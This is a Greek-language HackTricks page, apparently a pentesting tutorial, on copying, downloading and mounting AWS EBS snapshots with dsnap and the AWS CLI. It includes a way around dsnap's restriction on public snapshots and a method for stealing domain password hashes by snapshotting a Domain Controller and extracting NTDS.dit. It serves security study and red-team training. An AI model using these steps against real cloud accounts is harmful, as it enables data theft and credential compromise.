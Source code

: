# AWS - Ανάκτηση Στιγμιότυπου EBS

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

### Έλεγχος ενός στιγμιότυπου τοπικά
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Σημείωση** ότι το dsnap δεν θα σας επιτρέψει να κατεβάσετε δημόσιες στιγμιότυπες. Για να παρακάμψετε αυτό, μπορείτε να δημιουργήσετε ένα αντίγραφο του στιγμιότυπου στον προσωπικό σας λογαριασμό και να το κατεβάσετε από εκεί:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Για περισσότερες πληροφορίες σχετικά με αυτήν την τεχνική, ελέγξτε την αρχική έρευνα στο [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Έλεγχος ενός snapshot στο AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Τοποθετήστε το σε ένα EC2 VM υπό τον έλεγχό σας** (πρέπει να βρίσκεται στην ίδια περιοχή με το αντίγραφο του αντιγράφου ασφαλείας):

Βήμα 1: Δημιουργήστε έναν νέο όγκο του προτιμώμενου μεγέθους και τύπου μεταβαίνοντας στο EC2 –> Όγκοι.

Για να εκτελέσετε αυτήν την ενέργεια, ακολουθήστε αυτές τις εντολές:
- Δημιουργήστε έναν όγκο EBS για να συνδέσετε στην παρουσία EC2.
- Βεβαιωθείτε ότι ο όγκος EBS και η παρουσία βρίσκονται στην ίδια ζώνη.

Βήμα 2: Επιλέξτε την επιλογή "επισύναψη όγκου" κάνοντας δεξί κλικ στον δημιουργημένο όγκο.

Βήμα 3: Επιλέξτε την παρουσία από το πλαίσιο κειμένου της παρουσίας.

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την ακόλουθη εντολή:
- Επισυνάψτε τον όγκο EBS.

Βήμα 4: Συνδεθείτε στην παρουσία EC2 και εμφανίστε τους διαθέσιμους δίσκους χρησιμοποιώντας την εντολή `lsblk`.

Βήμα 5: Ελέγξτε αν ο όγκος έχει κάποια δεδομένα χρησιμοποιώντας την εντολή `sudo file -s /dev/xvdf`.

Αν το αποτέλεσμα της παραπάνω εντολής δείχνει "/dev/xvdf: data", σημαίνει ότι ο όγκος είναι άδειος.

Βήμα 6: Μορφοποιήστε τον όγκο στο σύστημα αρχείων ext4 χρησιμοποιώντας την εντολή `sudo mkfs -t ext4 /dev/xvdf`. Εναλλακτικά, μπορείτε επίσης να χρησιμοποιήσετε τη μορφή xfs χρησιμοποιώντας την εντολή `sudo mkfs -t xfs /dev/xvdf`. Σημειώστε ότι πρέπει να χρησιμοποιήσετε είτε ext4 είτε xfs.

Βήμα 7: Δημιουργήστε έναν κατάλογο της επιλογής σας για την τοποθέτηση του νέου όγκου ext4. Για παράδειγμα, μπορείτε να χρησιμοποιήσετε το όνομα "newvolume".

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την εντολή `sudo mkdir /newvolume`.

Βήμα 8: Τοποθετήστε τον όγκο στον κατάλογο "newvolume" χρησιμοποιώντας την εντολή `sudo mount /dev/xvdf /newvolume/`.

Βήμα 9: Αλλάξτε κατάλογο στον κατάλογο "newvolume" και ελέγξτε τον χώρο δίσκου για να επιβεβαιώσετε την τοποθέτηση του όγκου.

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε τις ακόλουθες εντολές:
- Αλλάξτε κατάλογο σε `/newvolume`.
- Ελέγξτε τον χώρο δίσκου χρησιμοποιώντας την εντολή `df -h .`. Το αποτέλεσμα αυτής της εντολής θα πρέπει να δείχνει τον ελεύθερο χώρο στον κατάλογο "newvolume".

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module `ebs__explore_snapshots`.

### Έλεγχος ενός αντιγράφου ασφαλείας στο AWS (χρησιμοποιώντας το cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Αντίγραφο Σκιάς

Οποιοσδήποτε χρήστης του AWS που διαθέτει την άδεια **`EC2:CreateSnapshot`** μπορεί να κλέψει τα hashes όλων των χρηστών του domain δημιουργώντας ένα **αντίγραφο στιγμιότυπου του Domain Controller**, το οποίο τοποθετεί σε ένα instance που ελέγχει και **εξάγοντας τα αρχεία NTDS.dit και SYSTEM** από το registry hive για χρήση με το project secretsdump του Impacket.

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να αυτοματοποιήσετε την επίθεση: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ή μπορείτε να χρησιμοποιήσετε ένα από τα προηγούμενα τεχνικά μετά τη δημιουργία ενός στιγμιότυπου.


# Αναφορές
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
